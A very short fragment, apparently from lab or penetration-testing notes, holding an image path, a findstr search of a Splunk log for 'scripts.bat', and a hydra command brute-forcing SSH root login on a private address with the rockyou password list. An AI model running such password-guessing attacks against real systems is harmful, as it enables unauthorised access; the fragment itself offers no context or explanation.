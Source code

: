 findstr "scripts.bat" "C:\Program Files\Splunk\var\log\splunk\splunkd.log"
hydra -l root -P ./rockyou.txt ssh://192.168.1.113